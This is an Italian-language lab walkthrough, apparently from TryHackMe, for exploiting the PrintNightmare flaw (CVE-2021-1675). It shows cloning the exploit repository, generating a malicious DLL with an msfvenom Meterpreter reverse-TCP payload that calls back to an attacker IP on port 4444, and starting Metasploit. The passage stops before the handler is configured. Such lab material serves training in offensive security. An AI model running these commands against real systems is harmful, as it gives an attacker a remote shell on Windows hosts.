```shell-session
root@attackbox:~/Desktop/pn# git clone https://github.com/tryhackme/CVE-2021-1675.git 
Cloning into 'CVE-2021-1675'...
remote: Enumerating objects: 173, done.
remote: Counting objects: 100% (173/173), done.
remote: Compressing objects: 100% (105/105), done.
remote: Total 173 (delta 62), reused 133 (delta 36), pack-reused 0
Receiving objects: 100% (173/173), 1.45 MiB | 452.00 KiB/s, done.
Resolving deltas: 100% (62/62), done.
```

Prima di avviare **Metasploit** , crea la DLL dannosa .   

Nota : negli output del terminale qui sotto l'attaccante è  `192.168.0.100`. Dovrai sostituire `192.168.0.100`con il tuo IP ATTACK BOX (o IP OpenVPN) .  

Utilizzerai **msfvenom** per creare la DLL dannosa . 

Crea dannosoDLLcon Msfvenom

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.105.71 LPORT=4444 -f dll -o /home/kali/Downloads/THM/share/malicious.dll
```

```shell-session
root@attackbox:~/Desktop/pn# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=4444 -f dll -o ~/Desktop/share/malicious.dll 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of dll file: 5120 bytes
Saved as: /root/Desktop/share/malicious.dll
```

Se vedi un output simile quando esegui questo comando, allora dovresti aver creato correttamente la DLL .

Avviamo Metasploit .

```
msfconsole
```

```shell-session
root@attackbox:~/Desktop/pn# msfconsole 
=[ metasploit v5.0.101-dev                         ]
+ -- --=[ 2048 exploits - 1105 auxiliary - 344 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: To save all commands executed since start up to a file, use the makerc command

msf5 >
```

Una volta caricato correttamente Metasploit , è necessario configurare il gestore per ricevere la connessione in arrivo dalla DLL dannosa . 
